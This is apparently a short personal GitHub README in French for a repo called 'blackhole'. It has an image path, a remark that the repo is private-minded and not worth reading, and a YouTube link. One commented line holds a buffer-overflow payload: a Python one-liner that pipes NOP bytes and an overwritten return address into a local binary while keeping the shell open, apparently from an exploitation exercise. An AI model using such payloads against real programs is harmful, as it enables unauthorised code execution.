 # blackhole

ce repo est perso (mais sans rien de compromettant) donc pas la peine de le regarder

https://www.youtube.com/watch?time_continue=5&v=uAgFf0sC8hM

#	(python -c 'print 90*"\x90"+"\x84\x64\x04\x08"' ; cat) | ./exec
